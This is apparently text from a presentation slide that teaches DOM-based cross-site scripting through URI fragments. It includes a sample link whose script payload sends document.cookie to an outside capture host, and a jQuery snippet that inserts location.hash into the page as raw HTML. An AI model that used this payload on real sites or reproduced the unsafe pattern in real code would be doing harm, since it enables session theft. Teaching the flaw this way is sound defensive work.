

# XSS DOM (Document Object Model)

Many developers push the logic to the client-side. Some web applications use URI fragments which is the part in the URL after the # sign. This has been proven to be a convenient method of storing the user’s location within a page that keeps the browser history readable without extra round trips to the server. URI fragments are also not sent with HTTP requests so they need to be interpreted by the client-side JavaScript. This means that treatment of URI fragments must not permit the injection of malicious JavaScript.
Let’s say you’re scrolling on a web page and you see www.pinterest.com#6 which tracks the scroll location.
www.chinterest.com#<script>window.location="https://en0znfd3iuaxh.x.pipedream.net?cookie="+document.cookie</script> // payload similar to reflected XSS. Attacker needs to trick a user to click the link to steal their session cookie.
$(document).onload(function() {
  var page = window.location.hash;
  loadPage(page);

  $("#page-no").html(page);
});

Notice how the window.location.hash value is written into the DOM as raw HTML which is a major security hole.